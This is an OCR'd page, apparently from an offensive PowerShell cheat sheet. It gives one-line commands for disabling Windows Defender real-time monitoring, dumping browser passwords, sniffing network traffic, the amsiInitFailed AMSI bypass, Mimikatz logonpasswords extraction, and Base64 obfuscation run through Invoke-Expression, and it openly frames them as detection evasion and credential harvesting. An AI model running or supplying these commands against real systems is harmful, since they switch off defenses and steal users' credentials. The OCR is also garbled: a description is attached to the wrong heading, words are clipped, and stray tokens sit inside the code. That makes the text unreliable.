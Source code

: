 ### Disabling Windows Defender

Extracts passwords saved in web browsers and saves them to a le, useful for credential harvesting.

```powershell
Set-MpPreference -DisableRealtimeMonitoring $true
Disables Windows Defender’s real-time monitoring feature, which can help in evading detection.
Extracting Browser Saved Passwords
Invoke-WebBrowserPasswordDump | Out-File -FilePath C:\temp\browser_passwords.txt
```

### Conducting Network Sniffing

Sets up a network capture session to sni packets, which can be analyzed for sensitive data or network
troubleshooting.

```powershell
$adapter = Get-NetAdapter | Select-Object -First 1; New-NetEventSession -Name 'Session1' -CaptureMode
SaveToFile -LocalFilePath 'C:\temp\network_capture.etl'; Add-NetEventPacketCaptureProvider -SessionName
'Session1' -Level 4 -CaptureType Both -Enable; Start-NetEventSession -Name 'Session1'; Stop-
NetEventSession -Name 'Session1' after 60
```

### Bypassing AMSI (Anti-Malware Scan Interface)

Bypasses the Anti-Malware Scan Interface (AMSI) in PowerShell, allowing the execution of potentially malicious scripts without detection.

```powershell
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,S
tatic').SetValue($null,$true)
```

### Extracting System Secrets with Mimikatz
Uses Mimikatz to extract logon passwords and other sensitive data from system memory.

```powershell
Invoke-Mimikatz -Command '"sekurlsa::logonpasswords"' | Out-File -FilePath C:\temp\logonpasswords.txt
```

### String Obfuscation

Obfuscates a string (e.g., a command) using Base64 encoding to evade detection by security tools.

```powershell
$originalString = 'SensitiveCommand'; $obfuscatedString =
[Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($originalString)); $decodedString =code code
[System.Text.Encoding]::Unicode.GetString([Convert]::FromBase64String($obfuscatedString)); Invoke-code
Expression $decodedStringcode
```
